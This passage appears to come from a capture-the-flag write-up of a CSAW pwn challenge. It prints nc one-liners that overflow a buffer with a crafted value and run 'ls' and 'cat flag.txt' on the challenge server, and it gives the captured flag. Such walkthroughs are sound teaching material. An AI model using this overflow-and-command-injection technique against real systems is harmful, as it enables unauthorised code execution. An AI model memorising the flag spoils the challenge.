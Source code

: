 ```
nc pwn.chal.csaw.io 9000 <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xcals'")
```

Output :

<p align="center">
<img src="resources/pwn-25-bigboy/16.PNG"/>
</p>

Good ! Let's cat the flag file :

```
nc pwn.chal.csaw.io 9000 <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xcacat flag.txt'")
```

Output :

<p align="center">
<img src="resources/pwn-25-bigboy/17.PNG"/>
</p>

So, the flag is : ``flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}``








## get it?
